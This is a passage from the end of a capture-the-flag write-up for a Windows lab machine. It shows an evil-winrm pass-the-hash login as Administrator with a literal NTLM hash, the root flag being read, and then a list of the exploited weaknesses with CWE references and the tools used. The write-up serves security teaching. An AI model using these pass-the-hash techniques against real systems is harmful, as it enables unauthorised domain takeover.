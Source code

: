 ```bash
❯ evil-winrm -i cicada.htb -u Administrator -H 2b87e7c93a3e8a0ea4a581937016f341

Evil-WinRM shell v3.7

Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
cicada\administrator
*Evil-WinRM* PS C:\Users\Administrator\Documents> cat ../Desktop/root.txt
8b8cbd91b9693ba7bb36cd--snip--
```

## Vulnerabilities Identified

1. **Exposed Default Credentials**
   - Default password exposed in accessible SMB share
   - CWE-522: Insufficiently Protected Credentials

2. **Password in Description Field**
   - Clear text password stored in user description
   - CWE-260: Password in Configuration File

3. **Weak Password Policy**
   - Reuse of similar password patterns
   - CWE-521: Weak Password Requirements

4. **Privilege Misconfiguration**
   - SeBackupPrivilege assigned to regular user
   - CWE-269: Improper Privilege Management

## Tools Used

- Rustscan
- Nmap
- NetExec (formerly CrackMapExec)
- Evil-WinRM
- Pypykatz
- SMBClient

## References
- [CWE-522: Insufficiently Protected Credentials](https://cwe.mitre.org/data/definitions/522.html)
- [CWE-260: Password in Configuration File](https://cwe.mitre.org/data/definitions/260.html)
- [CWE-269: Improper Privilege Management](https://cwe.mitre.org/data/definitions/269.html)
- [CWE-521: Weak Password Requirements](https://cwe.mitre.org/data/definitions/521.html)